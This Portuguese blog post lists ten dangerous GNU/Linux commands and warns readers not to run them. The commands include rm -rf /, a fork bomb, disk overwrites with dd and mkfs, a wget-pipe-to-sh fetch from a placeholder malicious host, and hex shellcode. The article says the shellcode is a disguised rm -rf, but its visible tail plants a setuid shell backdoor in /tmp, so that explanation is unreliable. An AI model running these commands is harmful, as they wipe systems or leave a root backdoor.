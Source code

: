 ```yaml
---
layout: post
title: "10 comandos perigosos que você nunca deve executar no GNU/Linux"
date: '2015-06-06T09:49:00.001-07:00'
image: '/assets/img/linux/forkbomb.jpg'
description: "A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso."
tags:
- linux
- gnu
- terminal
- comandos
---
```


![Fork Bomb](/assets/img/linux/forkbomb.jpg)

A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso, principalmente se tratando do usuário root, ou do usuário que pode assumir a maioria dos seus privilégios, o sudo. É necessário saber exatamente o que está fazendo. Esse artigo serve para alertá-los sobre alguns comandos do terminal, para não executá-los.


# 1. rm -rf

O comando rm -rf é um dos maneira mais rápida de eliminar uma pasta e seu conteúdo. Mas um pouco de erro de digitação ou ignorância pode resultar em danos no sistema irrecuperáveis. Algumas das opções usadas com o comando rm é: 

{% highlight bash %}
rm -rf
{% endhighlight %}

comando rm no Linux é usado para apagar arquivos.

* rm -r comando exclui a pasta de forma recursiva, mesmo a pasta vazia.
* comando rm -f remove "apenas ler o arquivo 'sem perguntar.
* rm-rf / : Força eliminação de tudo no diretório raiz.
* rm -rf * : Força eliminação de tudo no atual diretório diretório / trabalho.
* rm -rf : Força supressão do atual diretórios e subdiretórios.

Por isso, tenha cuidado quando você está executando o comando rm -rf. Para evitar um acidente de excluir arquivos com o comando 'rm', crie um alias de comando 'rm' como 'rm -i' ".bashrc", ele irá pedir-lhe para confirmar cada exclusão.

# 2. :(){:|:&};:

{% highlight bash %}
:(){:|:&};:
{% endhighlight %}

A descrição acima é o fork bomb. Ele opera através da definição de uma função chamada ':', que se chama duas vezes, uma no primeiro plano e uma vez no fundo. Ele mantém em execução novamente e novamente até que o sistema congela.


# 3. comando > /dev/sda

O comando acima escreve a saída do 'comando' no bloco /dev/sda. O comando acima escreve dados brutos e todos os arquivos no bloco serão substituídos por dados brutos, resultando em perda total dos dados no bloco.


# 4. mv diretorio /dev/null

Tudo movido para /dev/null, desaparece do sistema.

{% highlight bash %}
mv /home/user/* /dev/null
{% endhighlight %}

# 5. wget http://malicious_source -O- | sh

O comando acima irá baixar um script a partir de uma fonte mal-intencionada e, em seguida, executá-lo. Comando wget irá baixar o script e sh irá executar o script baixado.

> Nota: Você deve ser muito consciente da fonte de onde você está baixando pacotes e scripts. Só use esses scripts/aplicações que é baixado de uma fonte confiável.

# 6. mkfs.ext3 /dev/sda

{% highlight bash %}
mkfs.ext3 /dev/sda
{% endhighlight %}

O comando acima irá danificar os blocos do seu HD, e formatá-lo.

# 7. > arquivo

{% highlight bash %}
echo "Nada" > arquivo.conf
{% endhighlight %}

Qual arquivo importante do sistema, será substituído com esse redirecionador.

A forma exata de usá-lo é criar um arquivo backup:

{% highlight bash %}
cp arquivo arquivo.bkp
{% endhighlight %}

e redirecionar com 2 "maiores que", >> , se necessário, exemplo para um source.list:

{% highlight bash %}
echo "link pacote deb" >> /etc/apt/source.list
{% endhighlight %}


# 8. ^foo^bar

Este comando é usado para editar o comando anterior sem a necessidade de digitar novamente todo o comando novamente. Mas isso realmente pode ser problemático se você não tomou o risco de verificar cuidadosamente a mudança no comando original usando ^ ^ foo comando bar.


# 9. dd if=/dev/random of=/dev/sda

{% highlight bash %}
dd if=/dev/random of=/dev/sda
{% endhighlight %}

O comando acima irá acabar com como */dev/sda* e escrever dados aleatórios para o bloco. Claro! Seu sistema seria deixado na fase inconsistente e irrecuperável.


# 10. Comando invisível

O comando abaixo nada mais é que o primeiro comando deste artigo (rm-rf). Aqui os códigos estão escondidos em hex para que um usuário ignorante pode ser enganado. Executando o código abaixo em seu terminal e limpar sua partição raiz.

Este comando aqui mostra que a ameaça pode ser escondida e normalmente não detectável, às vezes. Você deve estar ciente de que você está fazendo e qual seria o resultado. Não compilar/rodar códigos a partir de uma fonte desconhecida.


{% highlight bash %}
 char esp[] __attribute__ ((section(“.text”))) /* e.s.p
 release */
 = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
 “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
 “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
 “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
 “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
 “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
 “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
 “cp -p /bin/sh /tmp/.beyond; chmod 4755
 /tmp/.beyond;”;
{% endhighlight %}

Veja um vídeo bem legal onde resume os 5 mais perigosos

# [Clique Aqui para Ver o Vídeo](https://www.youtube.com/watch?v=-mDqHdIOjJM)


## NÃO EXECUTE NENHUM COMANDO ACIMA, CASO QUEIRA TESTÁ-LOS, UTILIZE UM A MÁQUINA VIRTUAL PARA TESTES

<sub>Via: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/</sub>

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>

<!-- Informat -->
<ins class="adsbygoogle"
 style="display:block"
 data-ad-client="ca-pub-2838251107855362"
 data-ad-slot="2327980059"
 data-ad-format="auto"
 data-full-width-responsive="true"></ins>

<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


